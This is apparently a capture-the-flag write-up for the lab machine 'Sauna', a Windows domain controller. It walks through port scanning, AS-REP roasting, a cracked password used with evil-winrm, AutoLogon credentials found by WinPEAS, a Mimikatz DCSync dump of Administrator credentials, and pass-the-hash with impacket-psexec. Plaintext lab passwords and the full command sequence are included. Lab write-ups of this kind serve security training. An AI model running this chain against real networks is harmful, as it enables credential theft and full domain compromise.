Sauna
Nmap Scans
nmap -Pn -p- -v $target -n -oN scan.txt --min-rate 5000
awk '/^[0-9]+\/tcp/ {print $1}' scan.txt | cut -d'/' -f1 | paste -sd, - > ports.txt;nmap -Pn -sVC -p$(cat ports.txt) $target -oN scan2.txt -vv
Result
# Nmap 7.98 scan initiated Wed Jun 3 12:11:52 2026 as: /usr/lib/nmap/nmap --privileged -Pn -sVC -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49696,49717 -oN scan2.txt -vv 10.129.8.202 Nmap scan report for 10.129.8.202 Host is up, received user-set (0.021s latency). Scanned at 2026-06-03 12:11:53 EDT for 95s PORT STATE SERVICE REASON VERSION 53/tcp open domain syn-ack ttl 127 Simple DNS Plus 80/tcp open http syn-ack ttl 127 Microsoft IIS httpd 10.0 |_http-server-header: Microsoft-IIS/10.0 | http-methods: | Supported Methods: OPTIONS TRACE GET HEAD POST |_ Potentially risky methods: TRACE |_http-title: Egotistical Bank :: Home 88/tcp open kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-06-03 23:11:37Z) 135/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC 139/tcp open netbios-ssn syn-ack ttl 127 Microsoft Windows netbios-ssn 389/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL, Site: Default-First-Site-Name) 445/tcp open microsoft-ds? syn-ack ttl 127 464/tcp open kpasswd5? syn-ack ttl 127 593/tcp open ncacn_http syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0 636/tcp open tcpwrapped syn-ack ttl 127 3268/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL, Site: Default-First-Site-Name) 3269/tcp open tcpwrapped syn-ack ttl 127 5985/tcp open http syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) |_http-server-header: Microsoft-HTTPAPI/2.0 |_http-title: Not Found 9389/tcp open mc-nmf syn-ack ttl 127 .NET Message Framing 49667/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC 49673/tcp open ncacn_http syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0 49674/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC 49696/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC 49717/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows Host script results: |_clock-skew: 6h59m37s | smb2-time: | date: 2026-06-03T23:12:27 |_ start_date: N/A | smb2-security-mode: | 3.1.1: |_ Message signing enabled and required | p2p-conficker: | Checking for Conficker.C or higher... | Check 1 (port 61943/tcp): CLEAN (Timeout) | Check 2 (port 9693/tcp): CLEAN (Timeout) | Check 3 (port 54165/udp): CLEAN (Timeout) | Check 4 (port 64601/udp): CLEAN (Timeout) |_ 0/4 checks are positive: Host is CLEAN or ports are blocked Read data files from: /usr/share/nmap Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . # Nmap done at Wed Jun 3 12:13:28 2026 -- 1 IP address (1 host up) scanned in 95.99 seconds
Taking these names and then formatting them into commonly used formats, I will try ASREPRoasting.

ASREPRoasting
Using the username list, I attempt ASREPRoasting.

The user fsmith returns a hash. Decoding the hash will give us the password which we can then run on the different services.

Netexec

Evil-WinRM as fsmith

evil-winrm -i $target -u fsmith -p "TheStrokes23"
User Proof

whoami; hostname; ipconfig; cat user.txt
WinPEASx64.exe

upload /home/bruhj/Desktop/windows/winPEASx64.exe

AutoLogon Credentials

The user svc_loanmanager doesn't exist, but svc_loanmgr is a close match.
svc_loanmgr : Moneymakestheowrldgoround!
Evil-WinRM as svc_loanmgr

BloodHound


Mimikatz
C:\Users\svc_loanmgr\Desktop>mimikatz.exe
mimikatz.exe
.#####. mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
.## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ## > https://blog.gentilkiwi.com/mimikatz
'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
'#####' > https://pingcastle.com / https://mysmartlogon.com ***/
mimikatz # lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:Administrator
[DC] 'EGOTISTICAL-BANK.LOCAL' will be the domain
[DC] 'SAUNA.EGOTISTICAL-BANK.LOCAL' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
Object RDN : Administrator
** SAM ACCOUNT **
SAM Username : Administrator
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration :
Password last change : 7/26/2021 9:16:16 AM
Object Security ID : S-1-5-21-2966785786-3096785034-1186376766-500
Object Relative ID : 500
Credentials:
Hash NTLM: [redacted]
ntlm- 0: [redacted]
ntlm- 1: [redacted]
ntlm- 2: [redacted]
lm - 0: [redacted]
lm - 1: [redacted]
Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
Random Value : [redacted]
* Primary:Kerberos-Newer-Keys *
Default Salt : EGOTISTICAL-BANK.LOCALAdministrator
Default Iterations : 4096
Credentials
aes256_hmac (4096) : [redacted]
aes128_hmac (4096) : [redacted]
des_cbc_md5 (4096) : [redacted]
OldCredentials
aes256_hmac (4096) : [redacted]
aes128_hmac (4096) : [redacted]
des_cbc_md5 (4096) : [redacted]
OlderCredentials
aes256_hmac (4096) : [redacted]
aes128_hmac (4096) : [redacted]
des_cbc_md5 (4096) : [redacted]
* Primary:Kerberos *
Default Salt : EGOTISTICAL-BANK.LOCALAdministrator
Credentials
des_cbc_md5 : [redacted]
OldCredentials
des_cbc_md5 : [redacted]
* Packages *
NTLM-Strong-NTOWF
* Primary:WDigest *
[29 WDigest hash entries redacted for brevity]
impacket-psexec

impacket-psexec $domain/Administrator@$target -hashes ":[redacted NTLM hash]"
Root Proof
